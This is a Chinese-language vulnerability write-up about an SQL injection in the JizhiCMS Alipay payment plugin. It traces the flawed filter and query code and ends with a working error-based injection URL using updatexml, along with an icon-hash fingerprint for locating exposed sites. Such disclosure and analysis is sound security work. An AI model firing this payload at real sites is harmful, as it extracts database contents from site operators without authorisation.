

# 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

<a-checkbox checked>极致CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1657387632"</a-checkbox></br>

## 漏洞复现

登录页面


查看一下进行过滤的函数


```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```


看一下执行的SQL语句的函数


```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```


跟进 findAll 函数


```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```


在跟进一下getData函数


```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```


跟进query执行函数


```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```


- ✅看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出
- ✅一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入


例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子


这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证


可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入





可以看到的确出现了sql语句和数据库错误,直接报错注入获取敏感信息

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

